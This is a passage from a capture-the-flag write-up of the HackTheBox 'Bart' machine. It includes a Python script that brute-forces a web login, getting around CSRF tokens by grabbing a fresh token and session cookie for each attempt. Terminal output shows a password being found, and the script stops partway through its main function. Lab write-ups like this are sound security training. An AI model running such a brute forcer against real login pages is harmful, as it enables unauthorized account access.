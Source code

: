 we have two valid usernames harvey and daniel.
After some educated guessing : harvey:potter

Then I decided to write a brute forcer in python since I needed to get around csrf tokens (script included at end), and it found a password:
````
root@kali:~/hackthebox/bart-10.10.10.81# python3 brute_monitor_login.py cewl-forum.txt
|==>                            |               99/1028
[+] Found password: potter
````

````
brute forcer source

brute_monitor_login.py:

#!/usr/bin/env python3

import re
import requests
import sys
from multiprocessing import Pool


MAX_PROC = 50
url = "http://monitor.bart.htb/"
username = "harvey"

#<input type="hidden" name="csrf" value="aab59572a210c4ee1f19ab55555a5d829e78b8efdbecd4b2f68bd485d82f0a57" />
csrf_pattern = re.compile('name="csrf" value="(\w+)" /')

def usage():
    print("{} [wordlist]".format(sys.argv[0]))
    print("  wordlist should be one word per line]")
    sys.exit(1)

def check_password(password):

    # get csrf token and PHPSESSID
    r = requests.get(url)
    csrf = re.search(csrf_pattern, r.text).group(1)
    PHPSESSID = [x.split('=')[1] for x in r.headers['Set-Cookie'].split(';') if x.split('=')[0] == 'PHPSESSID'][0]

    # try login:
    data = {"csrf": csrf,
            "user_name": username,
            "user_password": password,
            "action": "login"}
    proxies = {'http': 'http://127.0.0.1:8080'}
    headers = {'Cookie': "PHPSESSID={}".format(PHPSESSID)}
    r = requests.post(url, data=data, proxies=proxies, headers=headers)

    if '<p>The information is incorrect.</p>' in r.text:
        return password, False
    else:
        return password, True


def main(wordlist, nprocs=MAX_PROC):
    with open(wordlist, 'r', encoding='latin-1') as f:
       words = f.read().rstrip().replace('\r','').split('\n')

````
